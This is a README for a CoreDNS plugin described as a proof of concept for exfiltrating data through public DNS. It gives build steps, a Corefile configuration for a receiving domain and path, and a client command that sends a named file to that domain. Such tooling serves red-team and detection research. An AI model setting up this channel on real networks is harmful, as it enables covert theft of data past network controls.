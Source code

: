 # exfiltration plugin for coredns

This plugin is a proof of concept data exfiltration via public DNS infrastructure

## Installation

Clone the coredns repository

    git clone https://github.com/coredns/coredns.git

Add the plugin to the `plugin.cfg`, I recommend to put it after the `file:file` line.

    exfil:github.com/jpicht/exfil/lib/exfil

Build and deploy the server. A very basic example client is contained in the cmd/client subdirectory.

## Server configuration

Add the plugin to the Corefile

    exfil.example.com. {
        exfil exfil.example.com. /srv/exfil
    }

The syntax is:

    exfil $DOMAIN $PATH

## Usage

    client <domain> <filename>
